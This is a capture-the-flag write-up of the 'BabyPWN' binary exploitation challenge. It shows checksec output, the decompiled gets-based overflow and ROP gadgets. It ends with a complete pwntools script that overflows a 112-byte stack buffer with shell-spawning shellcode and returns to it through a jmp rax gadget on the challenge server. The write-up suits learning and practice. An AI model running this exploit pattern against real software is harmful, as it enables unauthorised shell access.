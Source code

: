 ```yaml
---
description: Binary Exploitation
---
```


# BabyPWN

> I hope you are having a nice day.

{% file src="../../.gitbook/assets/main" %}

```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX unknown - GNU_STACK missing
PIE:        No PIE (0x400000)
Stack:      Executable
RWX:        Has RWX segments
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```

An extremely short buffer overflow challenge, with an executable stack! Meaning I can use shellcode and the question was just HOW?

```c
void vuln(void)

{
  undefined local_78 [112];
  
  FUN_00401040(local_78);
  return;
}
```

This was the entire program being decompiled using Ghidra. An array of 112 size and a gets function call. Just those two things. Now something new I just learned is that the way gets works is that:

* it accepts input into the buffer
* it returns the pointer to the buffer
* saves the buffer in RAX

Coincidentally, there was a ROP gadget that does exactly jmp rax :

```
0x00000000004010a5 : je 0x4010b0 ; mov edi, 0x404030 ; jmp rax
0x00000000004010e7 : je 0x4010f0 ; mov edi, 0x404030 ; jmp rax
0x00000000004010ac : jmp rax
0x00000000004010a7 : mov edi, 0x404030 ; jmp rax
0x00000000004010a6 : or dword ptr [rdi + 0x404030], edi ; jmp rax
0x00000000004010a3 : test eax, eax ; je 0x4010b0 ; mov edi, 0x404030 ; jmp rax
0x00000000004010e5 : test eax, eax ; je 0x4010f0 ; mov edi, 0x404030 ; jmp rax
```

Using a shellcode stored in the beginning of the buffer, and a gadget pointing there. I built a ROP chain using pwntools:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# -*- template: winterbitia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *

exe = context.binary = ELF(args.EXE or 'main')
trm = context.terminal = ['tmux', 'splitw', '-h']

host = args.HOST or 'chals.bitskrieg.in'
port = int(args.PORT or 6001)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
b *vuln+29
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

io = start()

OFFSET = 120
JMP_RAX = 0x00000000004010ac

payload = flat(
    asm(shellcraft.sh()),
    cyclic(OFFSET - len(asm(shellcraft.sh())), n=8),
    JMP_RAX
)

io.sendline(payload)

io.interactive()
```

<figure><img src="../../.gitbook/assets/Screenshot 2025-02-07 201720 (1).png" alt=""><figcaption></figcaption></figure>
